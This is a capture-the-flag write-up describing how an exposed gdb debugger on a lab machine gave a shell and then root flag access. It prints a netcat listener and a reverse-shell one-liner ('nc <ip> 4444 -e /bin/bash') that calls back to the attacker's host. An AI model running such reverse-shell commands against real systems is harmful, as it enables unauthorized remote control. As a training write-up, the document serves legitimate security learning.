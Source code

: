# Target 10.0.50.160
This was an IP target machine and I could get just one flag in this target.
I caputed the root flag under /root/ETSCTF directory.

## Steps I followed to find relevant information and flags
The first step I did was to click on the dashboard of the hackmex website in order to see if there was a web service enabled (typically it opens in port 80 as default) in that IP.

Since it was not a web based target I needed to find out which ports where opened in order to know what to do afterwards.

### Network discovery
Firstly, as recon/enumeration step , I used the incredible bash script from this [repo](https://github.com/21y4d/nmapAutomator). It automates a lot of the flags of nmap utility to make recon/enumeration and can be running in the background.

The only opened port was ```3753```.

```bash
PORT     STATE SERVICE      VERSION
3753/tcp open  nattyserver?
```
Secondly, I tried to enter with my web browser into that specific port, but only the following code was displayed as raw text in the html file:

```
     Copyright (C) 2016 Free Software Foundation, Inc.
     License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
     This is free software: you are free to change and redistribute it.
     There is NO WARRANTY, to the extent permitted by law. Type "show copying"
     "show warranty" for details.
     This GDB was configured as "x86_64-linux-gnu".
     Type "show configuration" for configuration details.
     reporting instructions, please see:
     <http://www.gnu.org/software/gdb/bugs/>.
     Find the GDB manual and other documentation resources online at:
     <http://www.gnu.org/software/gdb/documentation/>.
     help, type "help".
     Type "apropos word" to search for commands related to "word".
     (gdb) 

```
It was obviously a gdb debbuger.


### Reverse Shell
So, I decided to use [netcat](http://netcat.sourceforge.net/) utility for reading from and writing to that specific port (that was using tcp) . 

After I typed a few commands unsucessfully, It came to my mind that I hadn't tried ```shell``` command yet to get the shell promp of the machine. And voila! by typing the previous command I could get access to the shell of the machine. I tried several commands but the shell was really unestable.

Then, I did a **Reverse Shell** (in which the target machine communicates back to the attacking machine) to have a stabler shell.

#### Step 1
I set up a netcat listener on port ```4444``` by typing the following command:

```bash
$ nc -lvp 4444
```

<img src="https://res.cloudinary.com/dxbnpu2rx/image/upload/v1602823070/1_ublzv6.png"/>

Where the flags are:
```
-l: Listen mode (default is client mode)
-v: Be verbose
-p : specify the port
```

#### Step 2

In the target machine I typed : 

```bash
$ nc 10.10.0.106 4444 -e /bin/bash
```
<img src="https://res.cloudinary.com/dxbnpu2rx/image/upload/v1602826824/2_g5fulv.png"/>

Where:

```
10.10.0.106 : Was my VPN IP during the ctf
4444 : port to establish connection
-e : Program to execute after connection occurs, connecting STDIN and STDOUT 
to the program
```
#### Step 3

I returned to my local terminal in which the port listener was opened and the first message confused me a bit: ```lookup failed```. So, I thought: this didn't work. But when I typed ```id``` command, it returned me the user name and real user id.

<img src="https://res.cloudinary.com/dxbnpu2rx/image/upload/v1602828118/3_nr8orh.png"/>

At this point to find the flag I just typed:
```bash
$ python
```
```python
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.

>>>print open("/root/ETSCTF", "r").read()
```
And voila!! The flag was printed. Since I did not take note of the flag I'm unable to share it, but as this was a root flag I got **1500 points**!
